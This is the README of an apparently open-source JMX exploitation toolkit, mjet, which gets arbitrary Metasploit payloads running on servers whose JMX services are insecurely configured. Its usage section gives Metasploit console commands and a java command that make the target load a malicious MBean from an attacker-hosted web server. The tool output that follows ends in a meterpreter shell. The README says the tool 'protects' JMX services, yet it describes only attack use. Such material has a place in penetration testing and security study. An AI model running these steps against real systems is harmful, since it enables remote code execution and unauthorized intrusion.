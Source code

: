 # mjet
Mogwai Security Java Management Extensions (JMX) Exploitation Toolkit

mjet is a tool that can be used to protect insecure configured JMX services. It is based on
the blog post "Exploiting JMX-RMI" from Braden Thomas/Accuvant "https://www.optiv.com/blog/exploiting-jmx-rmi" 
and can be used to execute arbitrary Metasploit payloads on the target system.

Mjet was originally planned to be a complete attack toolkit, however we noticed that the Metasploit Github repository contains 
a pull request which will provide basic Java RMI/serialization support in native ruby. This is awesome and removes the Java 
dependency. So we stopped developing this tool and create metasploit modules in the near future.

mjet consists of the following parts:
- A metasploit module which emulates a "mlet Server". This is basically a web server which hosts a html file that contains a mlet tag
- A ManagedBean that is changed by the mlet server module to include the selected payload
- A jar archive that is used to contact the insecure JMX service.


### Installation (with the github version of Metasploit)
- Copy the "MBean" folder to "data/java/metasploit"
- Copy java_mlet_server.rb to "modules/exploits/multi/misc/"

### Usage 

The example uses following systems:
attacker: 192.168.178.1
target: 192.168.178.200, JMX service running on tcp port 1616

- Configure/start the metasploit module "java_mlet_server". The module will run as a background job
```
msf > use exploit/multi/misc/java_mlet_server
msf > set LHOST 192.168.178.1
msf > set SRVHOST 192.168.178.1
msf > set URIPATH /mlet/
msf > run
```

Use mjet.jar to connect to the vulnerable JMX service and provide the URL to the MLet Web server...
```
java -jar mjet.jar -t 192.168.178.200 -p 1616 -u http://192.168.178.1:8080/mlet/
---------------------------------------------------
MJET - Mogwai Security JMX Exploitation Toolkit 0.1
---------------------------------------------------

[+] Connecting to JMX URL: service:jmx:rmi:///jndi/rmi://192.168.178.200:1616/jmxrmi ...
[+] Connected: rmi://192.168.178.164  5
[+] Trying to create MLet bean...
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.178.1:8080/mlet/
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
[+] Loaded class: metasploit.Metasploit
[+] Loaded MBean Server ID: ptIIirfM:name=BlPwaoHu,id=oWTqfkbE
[+] Invoking: metasploit.Metasploit.run()
[+] Done

```

and enjoy your meterpreter shell :-)

